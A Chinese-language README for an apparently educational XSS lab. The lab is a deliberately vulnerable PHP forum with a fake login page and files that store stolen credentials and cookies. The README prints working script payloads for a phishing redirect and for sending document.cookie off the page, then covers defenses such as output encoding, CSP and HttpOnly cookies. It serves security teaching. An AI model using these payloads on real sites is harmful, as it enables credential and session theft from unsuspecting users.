

# XSS漏洞演示靶场


## ⚠️ 免责声明

**本项目仅用于安全教学和演示目的！**

- 请勿将本项目用于任何非法用途
- 未经授权攻击他人系统属于违法行为
- 使用本项目的任何后果由使用者自行承担
- 作者不对任何滥用行为负责

## 📖 项目简介

这是一个完整的XSS（跨站脚本攻击）漏洞演示靶场，用于安全教学和演示。项目模拟了真实的技术论坛场景，包含多种XSS攻击方式的演示，帮助学习者理解XSS漏洞的原理和危害。

### 📸 项目截图

<table>
<tr>
<td align="center"><b>演示入口页面</b></td>
<td align="center"><b>论坛主页面</b></td>
</tr>
<tr>
<td></td>
<td></td>
</tr>
<tr>
<td align="center"><b>钓鱼登录页面</b></td>
<td align="center"><b>凭据查看页面</b></td>
</tr>
<tr>
<td></td>
<td></td>
</tr>
<tr>
<td align="center" colspan="2"><b>Cookie查看页面</b></td>
</tr>
<tr>
<td colspan="2" align="center"></td>
</tr>
</table>

### 演示场景

1. **🎣 钓鱼攻击** - 通过XSS注入恶意代码，将用户重定向到伪造的登录页面，窃取用户凭据
2. **🍪 Cookie窃取** - 窃取用户的Cookie信息，包括Session ID等敏感数据
3. **💬 存储型XSS** - 恶意代码存储在服务器，所有访问该页面的用户都会受到影响
4. **🔍 反射型XSS** - 通过URL参数传递恶意代码，诱骗用户点击恶意链接

## 🎯 功能特性

- ✅ 拟真的技术论坛页面，降低用户警惕
- ✅ 完整的钓鱼攻击流程演示
- ✅ Cookie窃取功能演示
- ✅ 多种XSS Payload示例
- ✅ 实时查看窃取的数据
- ✅ 详细的Payload构成解释
- ✅ 一键触发演示功能
- ✅ 支持删除评论
- ✅ 响应式设计，支持移动端

## 📁 项目结构

```
xss/
├── 📄 README.md                 # 项目说明文档
├── 📄 LICENSE                   # 开源协议
├── 📄 .gitignore               # Git忽略文件
├── 📄 demo.php                 # 演示入口页面
├── 📄 forum.php                # 存在XSS漏洞的论坛页面
├── 📄 index.php                # 项目首页（重定向到demo.php）
├── 📁 phishing/                # 钓鱼攻击相关文件
│   └── 📄 login.html           # 伪造的登录页面
├── 📁 data/                    # 数据存储目录
│   ├── 📄 stolen_credentials.txt  # 窃取的凭据（自动生成）
│   └── 📄 stolen_cookies.txt      # 窃取的Cookie（自动生成）
├── 📄 steal.php                # 接收窃取的凭据
├── 📄 steal_cookie.php         # 接收窃取的Cookie
├── 📄 view_credentials.php     # 查看窃取的凭据
├── 📄 view_cookies.php         # 查看窃取的Cookie
├── 📄 clear_credentials.php    # 清空凭据数据
├── 📄 clear_cookies.php        # 清空Cookie数据
└── 📁 assets/                  # 静态资源目录
    ├── 📁 css/                 # 样式文件
    └── 📁 js/                  # JavaScript文件
```

## 🚀 快速开始

### 环境要求

- PHP 7.0 或更高版本
- Apache/Nginx Web服务器
- 支持文件写入权限

### 安装步骤

1. **克隆项目**
```bash
git clone https://github.com/Guojin0826/xss-lab.git
cd xss-lab
```

2. **配置Web服务器**

**Apache配置示例：**
```apache
<VirtualHost *:80>
    DocumentRoot "/path/to/xss-demo"
    ServerName xss-demo.local
    <Directory "/path/to/xss-demo">
        Options Indexes FollowSymLinks
        AllowOverride All
        Require all granted
    </Directory>
</VirtualHost>
```

**Nginx配置示例：**
```nginx
server {
    listen 80;
    server_name xss-demo.local;
    root /path/to/xss-demo;
    index index.php index.html;

    location ~ \.php$ {
        fastcgi_pass 127.0.0.1:9000;
        fastcgi_index index.php;
        include fastcgi_params;
        fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
    }
}
```

3. **设置目录权限**
```bash
chmod 755 -R xss-demo/
chmod 777 xss-demo/data/  # 确保数据目录可写
```

4. **访问演示**
```
http://xss-demo.local/demo.php
```

### 📸 演示截图

#### 演示入口页面

*演示入口页面，展示完整的攻击流程说明*

#### 论坛主页面

*拟真的技术论坛页面，包含XSS漏洞*

#### 钓鱼登录页面

*伪造的登录页面，用于窃取用户凭据*

#### 凭据查看页面

*查看窃取的用户账号密码*

#### Cookie查看页面

*查看窃取的用户Cookie信息*

## 🎮 使用指南

### 钓鱼攻击演示

1. 访问 `demo.php` 演示入口
2. 点击"访问论坛"进入存在漏洞的论坛页面
3. 在演示控制面板选择"钓鱼攻击"
4. 选择Payload类型，点击"触发XSS攻击"
5. 页面自动跳转到伪造的登录页面
6. 输入任意用户名和密码
7. 自动跳回原页面，凭据被保存
8. 访问 `view_credentials.php` 查看窃取的凭据

### Cookie窃取演示

1. 访问 `demo.php` 演示入口
2. 点击"访问论坛"进入存在漏洞的论坛页面
3. 在演示控制面板选择"Cookie窃取"
4. 选择Payload类型，点击"触发XSS攻击"
5. Cookie自动发送到服务器
6. 访问 `view_cookies.php` 查看窃取的Cookie

### 手动注入Payload

在论坛评论区输入以下Payload：

**钓鱼攻击：**
```html
<script>
if (!sessionStorage.getItem('phished')) {
    sessionStorage.setItem('phished', 'true');
    var currentUrl = window.location.href;
    var phishingUrl = 'phishing/login.html?redirect=' + encodeURIComponent(currentUrl);
    window.location.href = phishingUrl;
}
</script>
```

**Cookie窃取：**
```html
<script>
var img = new Image();
img.src = 'steal_cookie.php?cookie=' + encodeURIComponent(document.cookie);
</script>
```

## 📚 XSS Payload 构成详解

### 钓鱼攻击Payload组成

| 组件 | 代码 | 作用 |
|------|------|------|
| 触发载体 | `<script>...</script>` | 包裹JavaScript代码 |
| 防重复机制 | `if (!sessionStorage.getItem('phished'))` | 避免循环跳转 |
| 标记设置 | `sessionStorage.setItem('phished', 'true')` | 标记已攻击 |
| 获取URL | `window.location.href` | 获取当前页面地址 |
| 构造URL | `encodeURIComponent(currentUrl)` | 编码URL参数 |
| 执行跳转 | `window.location.href = phishingUrl` | 重定向到钓鱼页面 |

### Cookie窃取Payload组成

| 组件 | 代码 | 作用 |
|------|------|------|
| 触发载体 | `<script>...</script>` | 包裹JavaScript代码 |
| 创建对象 | `new Image()` | 创建图片对象 |
| 获取Cookie | `document.cookie` | 读取所有Cookie |
| URL编码 | `encodeURIComponent()` | 编码特殊字符 |
| 构造URL | `steal_cookie.php?cookie=...` | 攻击者服务器地址 |
| 发送请求 | `img.src = url` | 触发HTTP请求 |

## 🛡️ XSS防御措施

### 输入过滤

```php
// PHP示例
function sanitize($input) {
    return htmlspecialchars($input, ENT_QUOTES, 'UTF-8');
}

// 使用
$comment = sanitize($_POST['comment']);
```

### 输出编码

```php
// HTML上下文
echo htmlspecialchars($data, ENT_QUOTES, 'UTF-8');

// JavaScript上下文
echo json_encode($data, JSON_HEX_TAG);
```

### 设置CSP

```php
// 设置Content-Security-Policy
header("Content-Security-Policy: default-src 'self'; script-src 'self'");
```

### HttpOnly Cookie

```php
// 设置HttpOnly标志
setcookie("session", $value, [
    'httponly' => true,
    'secure' => true,
    'samesite' => 'Strict'
]);
```

## 🔧 技术栈

- **后端**: PHP 7.0+
- **前端**: HTML5, CSS3, JavaScript
- **样式**: 纯CSS（无框架）
- **数据存储**: 文件系统（演示用）

## 📝 更新日志

### v1.0.0 (2024-01-XX)
- ✨ 初始版本发布
- ✨ 实现钓鱼攻击演示
- ✨ 实现Cookie窃取演示
- ✨ 添加演示控制面板
- ✨ 添加Payload构成解释
- ✨ 添加返回按钮
- ✨ 支持删除评论

## 🤝 贡献指南

欢迎提交Issue和Pull Request！

1. Fork本项目
2. 创建特性分支 (`git checkout -b feature/AmazingFeature`)
3. 提交更改 (`git commit -m 'Add some AmazingFeature'`)
4. 推送到分支 (`git push origin feature/AmazingFeature`)
5. 提交Pull Request

## 📄 许可证

本项目采用 MIT 许可证 - 详见 [LICENSE](LICENSE) 文件

## 👨‍💻 作者

**guojin**

## 🙏 致谢

- 感谢所有为网络安全教育做出贡献的人
- 本项目仅用于教学目的，请勿用于非法用途

## 📞 联系方式

如有问题或建议，请通过以下方式联系：
- 提交 [GitHub Issue](https://github.com/Guojin0826/xss-lab/issues)
- 发送邮件至 jinrcsy@gmail.com

---

**⭐ 如果这个项目对你有帮助，请给一个Star支持！**
